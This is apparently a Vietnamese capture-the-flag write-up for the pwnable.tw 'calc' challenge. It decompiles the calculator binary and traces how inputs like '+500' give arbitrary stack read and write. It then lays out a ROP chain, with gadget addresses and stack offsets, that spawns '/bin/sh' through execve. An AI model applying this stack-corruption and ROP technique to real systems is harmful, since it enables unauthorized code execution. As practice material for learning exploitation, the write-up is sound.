# [pwnable.tw] - calc



## A. CHALLENGE 

### [1] Binary Mitigations. 

- Đầu tiên ta kiếm tra các mitigations và xem thông tin cơ bản của file.



> Chương trình 32-bit biên dịch tĩnh, có canary và NX enable => stack không có quyền thực thi.

- Chương trình mô phỏng một máy tính cầm tay tính toán kết quả các phép tính mà ta nhập, thử các testcase cụ thể và mình sẽ giải thích rõ luồng thực thi của chương trình.



## B. OVERVIEW

- Luồng thực thi của toàn bộ chương trình như sau:

```bash
main() --> calc() {while(1)} | --> get_expr()
                             | --> init_pool()
                             | --> parse_expr() --> eval()
```

### [1] Vulnerability Analysis.

#### __[a] Hàm main()__

- Hàm `main()` thiết lập thời gian chờ tối đa là 60s, sau đó gọi hàm `calc()`.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, timeout);
  alarm(60);
  puts("=== Welcome to SECPROG calculator ===");
  fflush(stdout);
  calc();
  return puts("Merry Christmas!");
}
```

#### __[b] Hàm calc()__

- Hàm `calc()` khởi tạo 
    * Mảng `int numbers[101];` - lưu các số có trong biểu thức để xử lý tính toán (xử lý tính toán trong hai hàm `parse_expr()` và `eval()`).
    * Chuỗi ký tự `char expr[1024];` - nhận biểu thức đầu vào của người dùng (nhập biểu thức thông qua hàm `get_expr()`).  

```c
unsigned int calc()
{
  int numbers[101]; // [esp+18h] [ebp-5A0h] BYREF
  char expr[1024]; // [esp+1ACh] [ebp-40Ch] BYREF | the expression
  unsigned int v3; // [esp+5ACh] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  while ( 1 )
  {
    bzero(expr, 0x400u);
    if ( !get_expr(expr, 1024) )                // read the expression
      break;
    init_pool(numbers);                         // set numbers[101] = 0
    if ( parse_expr(expr, numbers) )
    {
      printf("%d\n", numbers[numbers[0]]);      // numbers[0] store length the expression
                                                // numbers[numbers[0]] store RESULT
      fflush(stdout);
    }
  }
  return __readgsdword(0x14u) ^ v3;
}
```

- Hàm `get_expr()` đọc biểu thức từ người dùng cho đến khi xuất hiện ký tự newline, chỉ chấp nhận các ký tự đầu vào trong `while-list [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, -, +, /, *, %]` và đặt byte cuối thành null.

```c
// expr[1024], 1024
int __cdecl get_expr(int a1, int a2)
{
  int v2; // eax
  char tmp; // [esp+1Bh] [ebp-Dh] BYREF
  int len; // [esp+1Ch] [ebp-Ch]

  len = 0;
  while ( len < a2 && read(0, &tmp, 1) != -1 && tmp != '\n' )
  {
    if(tmp == '+' || tmp == '-' || tmp == '*' || tmp == '/' || tmp == '%' || tmp > 47 && tmp <= 57)
    {
      v2 = len++;
      *(_BYTE *)(a1 + v2) = tmp;
    }
  }
  *(_BYTE *)(len + a1) = 0;                 
  // white-list [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, -, +, /, *, %]
  return len;
}
```

- Hàm `init_pool()` thì đặt giá trị của mảng `int numbers[101];` = 0.

```c
// numbers[101]
_DWORD *__cdecl init_pool(_DWORD *a1)
{
  _DWORD *result; // eax
  int i; // [esp+Ch] [ebp-4h]

  result = a1;
  *a1 = 0;                                      // numbers[0] = 0
  for ( i = 0; i <= 99; ++i )
  {
    result = a1;
    a1[i + 1] = 0;
  }                                             // numbers[1] -> numbers[100] = 0
  return result;
}
```

#### __[c] Hàm parse_expr()__

- Hàm `parse_expr()` nhận đối số là Chuỗi ký tự `char expr[1024];` và Mảng `int numbers[101];` được khởi tạo ở hàm `calc()`.

- __Phân tích 1:__

```c
// expr[1024], numbers[101]
int __cdecl parse_expr(int a1, _DWORD *a2)
{
  int amount; // eax
  int tmp; // [esp+20h] [ebp-88h]
  int i; // [esp+24h] [ebp-84h]
  int cnt; // [esp+28h] [ebp-80h]
  int size; // [esp+2Ch] [ebp-7Ch]
  char *ptr; // [esp+30h] [ebp-78h]
  int number; // [esp+34h] [ebp-74h]
  char s[100]; // [esp+38h] [ebp-70h] BYREF array store operator
  unsigned int v11; // [esp+9Ch] [ebp-Ch]

  v11 = __readgsdword(0x14u);
  tmp = a1;
  cnt = 0;
  bzero(s, 0x64u);
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)(*(char *)(i + a1) - 48) > 9 )// (unsigned int) | true is +, -, *, /, %
    {
      size = i + a1 - tmp;
      ptr = (char *)malloc(size + 1);
      memcpy((int)ptr, tmp, size);
      ptr[size] = 0;
      if ( !strcmp(ptr, "0") )
      {                                         // filter number = 0 in '0+100' or '100+0'
        puts((int)"prevent division by zero");
        fflush((int)stdout);
        return 0;
      }
```

- Chương trình bắt đầu một vòng lặp và sẽ tiến hành xử lý các ký tự trong `a1 - expr[1024]`, nếu kí tự thuộc `[+, -, *, /, %]` thì tiến hành xử lý tiếp trong điều kiện.

- Nếu ký tự thuộc tập `[+, -, *, /, %]`, tiến hành lưu chuỗi số trước phép toán trên heap, đặt byte NULL ở cuối và bắt đầu kiểm tra xem chuỗi số này có phải chỉ có 1 ký tự số `0`, nếu đúng thì in `"prevent division by zero"`- (Điều kiện này nhằm đảm bảo không xảy ra phép toán chia cho 0).




- __Phân tích 2:__

```c
      number = atoi((int)ptr);
      if ( number > 0 )
      {
        amount = (*a2)++;
        a2[amount + 1] = number;
      }
      if ( *(_BYTE *)(i + a1) && (unsigned int)(*(char *)(i + 1 + a1) - 48) > 9 )
      {                                         // filter '++' in '100++1'
        puts((int)"expression error!");
        fflush((int)stdout);
        return 0;
      }
      tmp = i + 1 + a1;                         // tmp = location start number after operator
```

- Tiếp theo, chương trình chuyển chuỗi ký tự số lưu trên heap sang số nguyên sử dụng `atoi()`, kiểm tra `number` > 0 thì (*a2)++ (là tăng giá trị của đối số thứ hai của hàm `parse_expr()` lên 1 đơn vị tức là `numebrs[0] = numbers[0] + 1`), sau đó lưu số number vào `numbers[numbers[0]]`.
    * Tức là dùng `numbers[0]` để đếm số lượng các số hiện đang trong lượt tính này.
    * Lưu các số cần tính toán vào phía sau `numbers[0]` - cũng trong mảng `numbers[]`.
- Sau đó là kiểm tra toán tử, nếu sau toán tử đã được tìm thấy ở trên (chỗ nhảy vào điều kiện để xử lý nếu là +, -, *, /, %) vẫn tiếp tục xuất hiện các ký tự là toán tử tiếp thì báo lỗi `"expression error!"` (điều kiện này là để xử lý trường hợp vd 100++1 thì xuất hiện hai toán tử liền kề => lỗi phép toán).

- Cuối cùng là dòng mã xử lý đặt biến tạm là vị trí ngay sau toán tử, cái này là để sau khi tính toán phía dưới thì quay lại tiếp tục xử lý các số và toán tử còn lại trong chuỗi biểu thức mà ta nhập vào.



- __Phân tích 3:__

```c
      if ( s[cnt] ) // array s[] store operator
      {
        switch ( *(_BYTE *)(i + a1) )
        {
          case '%':
          case '*':
          case '/':
            if ( s[cnt] != '+' && s[cnt] != '-' )
              goto LABEL_14;
            s[++cnt] = *(_BYTE *)(i + a1);
            break;
          case '+':
          case '-':
LABEL_14:
            eval((int)a2, s[cnt]);
            s[cnt] = *(_BYTE *)(i + a1);
            break;
          default:
            eval((int)a2, s[cnt--]);
            break;
        }
      }
      else
      {
        s[cnt] = *(_BYTE *)(i + a1); // store operator
      }
      if ( !*(_BYTE *)(i + a1) )
        break;
    }
  }
  while ( cnt >= 0 )
    eval((int)a2, s[cnt--]);
  return 1;
}
```

- Mảng `s[]` dùng để lưu lại các toán tử, nếu chưa có bất cứ toán tử nào được lưu thì tiến hành lưu và tiếp tục xét số tiếp theo.

- Nếu có toán tử được lưu, tiến hành xử lý nhân chia trước cộng trừ sau trên các phép toán và gọi hàm `eval()` để tính toán.

- Hàm `eval()` thực hiện phép toán theo "operator" (+ hoặc - hoặc * hoặc /) giữa a1[*a1-1] và a1[*a1] trong đó a1 chính là mảng numbers[], *a1 là numbers[0] là biến dùng để đếm, tính toán xong lưu kết quả và `biến đếm đó - 1`.

```c
// array numbers[], operator
_DWORD *__cdecl eval(_DWORD *a1, char a2)
{
  _DWORD *result; // eax

  if ( a2 == '+' )
  {
    a1[*a1 - 1] += a1[*a1];
  }
  else if ( a2 > '+' )
  {
    if ( a2 == '-' )
    {
      a1[*a1 - 1] -= a1[*a1];
    }
    else if ( a2 == '/' )
    {
      a1[*a1 - 1] /= (int)a1[*a1];
    }
  }
  else if ( a2 == '*' )
  {
    a1[*a1 - 1] *= a1[*a1];
  }
  result = a1;
  --*a1;
  return result;
}
```

- Ở đây mình sẽ lấy thẳng vd để mô tả lại quá trình tính toán này.

- VD: Nhập biểu thức 100+1+2
    * `1.`Biến đếm cộng một tức là `numbers[0] += 1`, sau đó số `100` đưa vào `numbers[1]`, lưu dấu cộng vào `s[cnt++]`.
    
    `<addr_numbers>: 0x0001 | 0x0064 | 0x0000 | 0x0000`

    * `2.`Biến đếm cộng một tức là `numbers[0] += 1`, sau đó số `1` đưa vào `numbers[2]`.
    
    `<addr_numbers>: 0x0002 | 0x0064 | 0x0001 | 0x0000`
    
    * `3.`Có toán tử được lưu => tính toán đi vào hàm `eval()`, tính `100 + 1 = 101` và đưa kết quả 101 vào `numbers[1]`, biến đếm `numbers[0] -= 1`.
    
    `<addr_numbers>: 0x0001 | 0x0065 | 0x0001 | 0x0000`
    
    * `4.`Biến đếm cộng một tức là `numbers[0] += 1`, sau đó số `2` đưa vào `numbers[2]`, lưu dấu cộng vào `s[cnt--]`.
    
    `<addr_numbers>: 0x0002 | 0x0065 | 0x0002 | 0x0000`
    
    * `5.`Có toán tử được lưu => tính toán đi vào hàm `eval()`, tính `101 + 2 = 103` và đưa kết quả 103 vào `numbers[1]`, biến đếm `numbers[0] -= 1`.
    
    `<addr_numbers>: 0x0001 | 0x0067 | 0x0002 | 0x0000`
    
    * `6.`Kết thúc biểu thức khi `*(_BYTE *)(i + a1)` = NULL, Tiến hành in kết quả `103` tương ứng với đoạn mã trong hàm `calc()` : 

```c
printf("%d\n", numbers[numbers[0]]); <=> printf("%d\n", numbers[1]);
```

__NOTE:__ khi có phép nhân và chia mọi thứ sẽ phức tạp hơn do độ ưu tiên của toán tử, nhưng không cần thiết đi sâu vào phân tích luồng thực thi của trường hợp đó vì chúng ta gây lỗi chương trình khi chỉ chứa toán tử `+` (như khi chạy thử thì chương trình xảy ra lỗi `segmentation fault` ở `+10000`) .

- __Phân tích 4: Tiến hành phân tích trường hợp gây lỗi khi nhập `+<number>` .__

`Lỗi xảy ra khi ta nhập biểu thức có dạng +[một số nào đó], vd: +1, +100, +10000, ...`

- __Đọc giá trị tùy ý trên STACK__.



- __VD nhập +500__:
    * `1.` Biến numbers[0] += 1 và số 500 được đưa vào numbers[1].
    
    `<addr_number>: 0x0001 | 0x01f4 | 0x0000 | 0x0000`
    
    * `2.` Chương trình đi vào hàm `eval()` xảy ra lỗi logic => tính phép toán `1 + 500 = 501` và đưa giá trị `501` vào __number[0]__, biến __number[0]__ `-= 1` => __number[0]__ = 500.
    
    `<addr_number>: 0x01f4 | 0x01f4 | 0x0000 | 0x0000`
    
    * `3.` Chương trình printf giá trị `numbers[numbers[0]]` = numbers[500] = 26

>Như vậy, chúng ta có thể leak giá trị ở bất kì địa chỉ nào tùy ý trên STACK.

- DEBUG:

```bash
gdb> b *calc+116 <calc() call parse_expr()>
gdb> b *calc+152 <calc() printf RESULT>
gdb> stack 370
```



- Sau khi `call parse_expr()`.



- Sau khi in kết quả.



- __Ghi giá trị tùy ý trên STACK.__



- Ví dụ ta nhập +500+30:

    * `1.` Biến numbers[0] += 1 và số 500 được đưa vào numbers[1].
    
    `<addr_numbers>: 0x0001 | 0x01f4 | 0x0000 | 0x0000`
    
    * `2.` Chương trình đi vào hàm `eval()` để tính phép toán `1 + 500 = 501` và đưa giá trị 501 vào numbers[0], biến numbers[0] -= 1.
    
    `<addr_numbers>: 0x01f4 | 0x01f4 | 0x0000 | 0x0000`
    
    `<addr_numbers[500]>: 0x01a (0x1a = 26)`
    
    * `3.` Biến `numbers[0] += 1` và số 30 được đưa vào `numbers[501]`
    
    `<addr_numbers>: 0x01f5 | 0x01f4 | 0x0000 | 0x0000`
    
    `<addr_numbers[500]>: 0x01a 0x01e`
    
    * `4.` Chương trình đi vào hàm eval() để tính phép toán `0x1a + 0x1e = 0x38` và đưa giá trị 0x38 vào numbers[500], biến numbers[0] -= 1
    
    `<addr_numbers>: 0x01f4 0x01f4 0x0000 0x0000`
    
    `<addr_numbers[500]>: 0x038 0x01e`
    
    * `5.` Chương trình printf giá trị `numbers[numbers[0]] = numbers[500] = 38`.

>Giá trị của numbers[500] thay đổi thành 0x38 => Thay đổi giá trị tại địa chỉ bất kì trên STACK.

- DEBUG:

```bash
gdb> b *calc+152 <calc() printf RESULT>
gdb> stack 370
```

- Dừng trước khi in kết quả



- Thực hiện in kết quả




### [2] Idea Exploit.

- Hiện tại ta có:
  * Chúng ta có thể đọc giá trị tùy ý của địa chỉ bất kỳ trên stack.
  * Chúng ta có thể ghi giá trị tùy ý vào địa chỉ bất kì trên stack.

- Do `Nx enable` nên không thể tiến hành ghi shellcode lên stack, ta sẽ ghi đè địa chỉ trả về của `calc()` sử dụng ROP để tiến hành lấy shell thông qua các gadget có trong chương trình __(do compile static nên file có đủ gadget mà ta cần)__ .

## C. EXPLOITATION

### [1] Stage 1: ROP.

- Tôi sẽ sử dụng lệnh ngắt `int 0x80` với eax=0xb để gọi hàm `sys_execve()`. Tôi sẽ cần set các giá trị eax, ebx, ecx, edx như sau:
  * eax = 0xb = 11
  * ebx = địa chỉ của chuỗi “/bin/sh”
  * ecx = edx = 0

- Tôi phải được các ROP gadgets phù hợp để set các thanh ghi này bằng ROPgadget.

```bash
0x0805c34b :   pop eax ; ret

0x080701d0 :   pop edx ; pop ecx ; pop ebx ; ret

0x08049a21 :   int 0x80
```

- Ta sẽ thiết kế stack như sau:

|    ADDRESS                     |                 OFFSET                        |   VALUE         | INSTRUCTION     |
| :-------------:                | :-------------------------------------------: |:---------------:| :-------------: | 
|__[return adress]__ EBP - 0x4   | 361                                           | 0x0805c34b      |  pop eax; ret                   |  
|     EBP - 0x8                  | 362                                           | 0x0b            |                                 | 
|     EBP - 0xc                  | 363                                           | 0x080701d0      |  pop edx; pop ecx; pop ebx; ret | 
|     EBP - 0x10                 | 364                                           | 0x00            |                                 |
|     EBP - 0x14                 | 365                                           | 0x00            |                                 |
|     EBP - 0x18                 | 366                                           | __[offset 368]__|  address of "/bin/sh"           | 
|     EBP - 0x1c                 | 367                                           | 0x08049a21      |     int 0x80                    | 
|     EBP - 0x20                 | 368                                           | 0x6e69622f      |      "/bin"                     | 
|     EBP - 0x24                 | 369                                           | 0x0068732f      |      "/sh\x00"                  |  

- Cần tính địa chỉ của `offset 368` để đưa vào `ebx`, ta có thể tính được bằng cách leak địa chỉ của `save EBP`, tính xem `save EBP` nằm ở offset bao nhiêu và suy ra địa chỉ của offset 368.
- Đặt breakpoint ngay trước lệnh printf của hàm calc() từ đó tính xem để leak giá trị trên `save EBP` thì cần offset bao nhiêu (`return address` và vùng ta muốn ghi ROP ngay sau nên tính được offset của `save EBP` => offset của `return address` và vùng còn lại - __ĐÂY CŨNG LÀ CÁCH TÍNH OFFSET NHỮNG NƠI TA MUỐN GHI__).



- __Offset 360__ - Giá trị leak được của `save_ebp` __(trong VD là 0xffffcf78)__ trùng hợp chính là địa chỉ stack của offset 368 - offset mà ta định ghi __"/bin/sh"__ => không cần tính toán gì thêm.

## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác:


